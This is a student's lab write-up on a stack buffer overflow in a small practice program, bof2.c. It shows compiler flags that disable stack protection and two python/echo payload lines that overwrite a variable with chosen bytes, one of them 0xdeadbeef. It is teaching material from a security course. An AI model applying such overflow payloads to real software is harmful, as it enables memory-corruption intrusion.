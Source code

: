 # Lab bof2
Hà Quốc Tiến - 22110075<br>
## Target
- Change the value of `check`, so that it statisfy the if condition.
## Solution
- Stack frame<br>
![bof2_1](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof2_1.png)
- We review `bof2.c` and see that buf only take 40 bytes of data. But the `fgets()` can took 45 bytes, then we watch the stack frame and see that in order to change the `check` by using buffer-overflow. We need to insert 44 bytes of data (40 for `buf[40]`  + 4 for `check` ), so 45 at the `fgets()` is enough.
## Execution
1. Create `bof2.out` by using ` gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`.<br>
2. We start buffer-overflowing 44 bytes of data into `buf[40]`.<br>
- First, let try to print `You are on the right way!`, by changing the `check` so that it doesn't = 0x04030201 and 0xdeadbeef.<br>
    > echo $(python -c "print('a'*40+'\x6b\x84\x04\x00')")| ./bof2.out<br>

    ![bof2_2](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof2_2.png)
- Second, let print out `Yeah! You win!`, by changing the `check` so that it = 0xdeadbeef<br>
    > echo $(python -c "print('a'*40+'\xef\xbe\xad\xde')")| ./bof2.out

    ![bof2_3](https://github.com/Quoctienha/InformationSecurity_Labs-/blob/main/img/bof2_3.png)
- And the lab is done.
